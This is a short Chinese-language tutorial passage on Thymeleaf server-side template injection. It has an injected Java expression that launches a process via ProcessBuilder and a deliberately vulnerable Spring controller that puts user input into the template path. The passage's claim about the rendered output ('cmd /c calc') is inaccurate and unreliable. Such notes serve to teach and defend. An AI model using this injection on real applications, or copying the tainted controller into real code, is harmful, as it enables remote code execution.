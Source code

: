 ## thymeleaf

基本原理

```plain
<html>
<body>
  <h1>${name}</h1>
</body>
</html>
```

如果攻击者将以下恶意代码注入模板：

```plain
<html>
<body>
  <h1>${new java.lang.ProcessBuilder("calc").start()}</h1>
</body>
</html>
```

则模板会解析为以下内容：

```plain
<html>
<body>
  <h1>cmd /c calc</h1>
</body>
</html>
```

javasec的示例如下

```plain
@RequestMapping("/thymeleaf")
    public String thymeleaf(String content) {
        return "user/" + content + "/welcome"; //template path is tainted
    }
```

没有对应的模板文件，默认渲染文件名字，所以存在模板注入  
[![](assets/1705886531-4c9bb9771d5ef4e987cb71d2999f28da.png)](https://cdn.nlark.com/yuque/0/2023/png/21762749/1703579189283-0ecbb1e3-cc2a-4fce-885f-99a44736dc57.png#averageHue=%23e5e0df&clientId=u5b490a61-0d9a-4&from=paste&height=278&id=uf9fb1770&originHeight=417&originWidth=1489&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=124984&status=done&style=none&taskId=u80c506a6-4991-4aa7-bf28-e4c99dc94ae&title=&width=992.6666666666666)  
但是也会报错500
